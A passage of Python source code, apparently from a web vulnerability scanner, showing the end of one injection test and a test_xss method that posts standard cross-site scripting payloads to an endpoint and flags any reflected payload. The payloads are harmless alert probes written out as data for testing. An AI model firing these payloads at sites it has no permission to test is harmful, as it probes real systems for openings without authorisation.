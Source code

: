 ```python
                            'vulnerable': True
                        })
                        break
                else:
                    results.append({
                        'payload': payload,
                        'url': test_url,
                        'response_length': len(response.text),
                        'status_code': response.status_code,
                        'vulnerable': False
                    })
                        
            except Exception as e:
                results.append({
                    'payload': payload,
                    'error': str(e),
                    'vulnerable': False
                })
        
        return results
    
    def test_xss(self, endpoint, parameter):
        """Test Cross-Site Scripting vulnerability"""
        
        payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "<svg onload=alert('XSS')>",
            "javascript:alert('XSS')",
            "\"><script>alert('XSS')</script>",
            "'><script>alert('XSS')</script>"
        ]
        
        results = []
        
        for payload in payloads:
            try:
                data = {parameter: payload}
                
                response = self.session.post(endpoint, data=data)
                
                # Check if payload is reflected
                if payload in response.text:
                    results.append({
                        'payload': payload,
                        'url': endpoint,
                        'method': 'POST',
                        'parameter': parameter,
                        'reflected': True,
                        'vulnerable': True,
                        'response_length': len(response.text)
                    })
                else:
                    results.append({
                        'payload': payload,
                        'reflected': False,
                        'vulnerable': False
                    })
                        
            except Exception as e:
                results.append({
                    'payload': payload,
                    'error': str(e),
```